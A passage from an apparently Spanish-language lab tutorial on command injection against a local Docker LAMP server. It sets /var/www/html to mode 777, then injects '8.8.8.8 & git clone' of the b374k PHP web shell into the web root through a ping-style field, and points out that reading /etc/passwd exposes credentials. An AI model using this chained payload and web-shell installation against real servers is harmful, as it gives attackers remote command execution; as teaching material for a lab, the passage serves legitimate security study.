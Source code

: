 Si muestra el contenido de /etc/passwd, el atacante puede extraer credenciales.

**Intentar descargar y ejecutar malware:**

Sólo para nuestro ejemplo dar permisos de escritura a /var/www/html/

Accedemos a nuestro servidor Apache (como lo estamos ejecutando desde un contenedor docker):

~~~
docker exec -it  lamp-php83 /bin/bash
~~~

modificamos los permidos de /var/www/html

~~~
sudo chmod -R 777 /var/www/html/
~~~

![](images/Imagen6.png)

Introducimos codigo para concatenar la ip del servidor dns de Google, con descargar el proyecto git b374k: 

~~~
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
~~~

Si lo realiza, estará instalando en el directorio b374k un shell basado en PHP. Luego podremos acceder a él y ejecutar los comandos que queramos.

![](images/Imagen7.png)

~~~
http://localhost/b374k/index.php
~~~
